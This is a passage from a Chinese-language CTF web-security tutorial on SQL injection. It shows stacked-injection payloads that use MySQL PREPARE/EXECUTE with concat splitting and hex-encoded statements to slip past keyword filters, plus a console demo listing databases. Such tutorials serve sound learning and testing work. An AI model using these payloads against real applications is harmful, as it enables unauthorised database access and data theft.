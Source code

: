 这样 `or 1` 就逃逸出来了，由此可控，可作为注入点了。

### 堆叠注入时利用MySql预处理

在遇到堆叠注入时，如果select、rename、alter和handler等语句都被过滤的话，我们可以用**MySql预处理语句配合concat拼接**来执行sql语句拿flag。

1. PREPARE：准备一条SQL语句，并分配给这条SQL语句一个名字(`hello`)供之后调用
2. EXECUTE：执行命令
3. DEALLOCATE PREPARE：释放命令
4. SET：用于设置变量(`@a`)

```sql
1';sEt @a=concat("sel","ect flag from flag_here");PRepare hello from @a;execute hello;#
```

#### MySql 预处理配合十六进制绕过关键字

原理如下

```sql
mysql> select hex('show databases');
+------------------------------+
| hex('show databases')        |
+------------------------------+
| 73686F7720646174616261736573 |
+------------------------------+
1 row in set (0.00 sec)

mysql> set @b = 0x73686F7720646174616261736573;
Query OK, 0 rows affected (0.00 sec)

mysql> prepare test from @b;
Query OK, 0 rows affected (0.00 sec)
Statement prepared

mysql> execute test;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| ayu_jweb           |
| challenges         |
| dami               |
| db1                |
| db_zbz             |
| dvwa               |
| mybatis            |
| mysql              |
| onethink           |
| ourphp             |
| performance_schema |
| security           |
| test               |
+--------------------+
14 rows in set (0.00 sec)
```
